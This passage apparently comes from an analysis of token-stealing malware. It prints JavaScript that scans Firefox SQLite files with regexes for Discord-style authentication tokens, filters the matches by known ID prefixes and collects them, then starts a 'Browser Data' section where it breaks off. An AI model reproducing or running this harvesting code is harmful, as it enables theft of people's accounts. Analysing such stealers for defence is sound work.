                 files?.forEach((file) => {
                    file = file?.trim();
                    if(existsSync(file) && statSync(file)?.isFile()) {
                        const lines = readFileSync(file, 'utf8')
                        ?.split('\n')?.map(x => x?.trim());
        
                        for(const regex of [new RegExp(/mfa\.[\w-]{84}/g), new RegExp(/[\w-][\w-][\w-]{24}\.[\w-]{6}\.[\w-]{26,110}/gm), new RegExp(/[\w-]{24}\.[\w-]{6}\.[\w-]{38}/g)]) {
                            lines?.forEach((line) => {
                                const tokens = line?.match(regex);
                                if(tokens) {
                                    tokens?.forEach((token) => {
                                        if (
                                            !token?.startsWith('NzY') &&
                                            !token?.startsWith('NDk') &&
                                            !token?.startsWith('MTg') &&
                                            !token?.startsWith('MjI') &&
                                            !token?.startsWith('MzM') &&
                                            !token?.startsWith('NDU') &&
                                            !token?.startsWith('NTE') &&
                                            !token?.startsWith('NjU') &&
                                            !token?.startsWith('NzM') &&
                                            !token?.startsWith('ODA') &&
                                            !token?.startsWith('OTk') &&
                                            !token?.startsWith('MTA') &&
                                            !token?.startsWith('MTE')
                                          ) return;
                                          if(!tokens_list?.find((t) => t?.token === token)) {
                                            tokens_list?.push({
                                                token: token,
                                                found_in: 'Firefox'
                                            });
                                          }
                                    });
                                };
                            });
                        };
                    };
                });
            } catch(e) {
                console.log(e);
            };

        return tokens_list;
       };
    };



It uses `where /r . *.sqlite` to find SQLite DBs and then uses regex to
look for tokens in the binary files.

### Browser Data
